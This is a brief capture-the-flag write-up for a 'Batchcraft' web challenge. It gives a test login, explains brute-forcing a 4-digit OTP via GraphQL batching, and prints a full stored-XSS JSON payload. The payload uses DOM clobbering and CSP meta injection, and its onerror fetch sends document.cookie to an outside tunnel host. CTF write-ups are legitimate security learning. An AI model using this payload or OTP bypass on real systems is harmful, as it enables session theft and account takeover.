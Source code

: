 # Batchcraft

Have a logoin `vendor53:PotionsFTW!`

Saw 2FA endpoint... played around a bit, thought some kind of direct access or bypassing would work, eventually clued into the name batch, and graphQL batching in a google search. Checked the OTP helpes, and noticed the pin was only 4 digits. Put together a python script to generate a mutation for each pin. Ended up having to split it into 10 requests. Copied into a shell script and output into a file, grepped for the word 'token'. Set this as my new cookie, and was able to access the dashboard.

Next figured it would have to be some kind of xss with meta tag. Was able to do redirects, but needed to execute javascript to be able to access the cookie. Noticed DomPurify wasn't the latest version, went to their release page to see what had been changed since, saw a note on DOM clobbering, and went into looking what that was... was pretty cool, could replace existing js with user defined, and craft it in a way to perform diferant tasks.

Needed to disable the global.js from loading, since was going to use the product.js to access a new `potionTypes` object. Based on the challenge, created the following payload for a new potion, and was able to get js execution:

```json
{
    "product_name":"test",
    "product_desc":"<img id=\"0\" name=\"potionTypes\" src=\"/test\" /><img id=\"1\" name=\"potionTypes\" src=\"/dne.jpg#'onerror=fetch('https://batchraft-bitch.tunnelto.dev?admin='+btoa(document.cookie),{mode:'no-cors'})//\" />",
    "product_price":"0",
    "product_category":"1",
    "product_keywords":"keywords",
    "product_og_title":"title",
    "product_og_desc":"\"><meta content=\"'unsafe-inline'; script-src http://127.0.0.1/static/js/product.js http://127.0.0.1/static/js/jquery.min.js 'unsafe-inline'\" http-equiv=\"Content-Security-Policy"
}
```

IP of 127.0.0.1 was because the bot accessing the page would be doing so behind a firewall. Admin was kind enough to point me in the right direction.
